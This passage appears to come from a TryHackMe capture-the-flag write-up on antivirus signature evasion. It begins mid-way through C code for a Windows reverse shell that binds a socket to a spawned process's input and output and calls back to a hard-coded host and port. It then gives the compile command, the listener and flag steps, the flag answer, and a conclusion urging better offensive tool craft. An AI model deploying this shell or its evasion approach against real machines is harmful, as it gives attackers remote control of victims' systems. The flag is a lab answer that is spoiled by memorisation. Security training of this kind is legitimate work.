                sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) S0;
                CreateProcess(NULL, p, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);
                WaitForSingleObject(pinfo.hProcess, INFINITE);
                CloseHandle(pinfo.hProcess);
                CloseHandle(pinfo.hThread);
            }
        }

        int main(int argc, char **argv) {
            if (argc == 3) {
                int port = atoi(argv[2]);
                runn(argv[1], port);
            } else {
                char host[] = "10.17.127.223";
                int port = 4545;
                runn(host, port);
            }
            return 0;
        }
        ```

    * Compile cript to exe file
        
        ```
        x86_64-w64-mingw32-gcc challenge.c -o challenge.exe -lwsock32 -lws2_32
        ``` 
    
    * Set listener on attacker machine
    
        

    * Get the flag

        

    **Answer : THM{08FU5C4710N_15 MY_10V3_14N6U463}**

## Task 8 - Conclusion

Signature evasion can kick off the process of preparing a malicious application to evade cutting-edge solutions and detection measures.

In this room, we covered how to identify signatures and break various types of signatures.

The techniques shown in this room are generally tool-agnostic and can be applied to many use cases as both tooling and defenses shift.

At this point, you can begin understanding other more advanced detection measures or analysis techniques and continue improving your offensive tool craft.

### Answer the questions below

* Read the above and continue learning!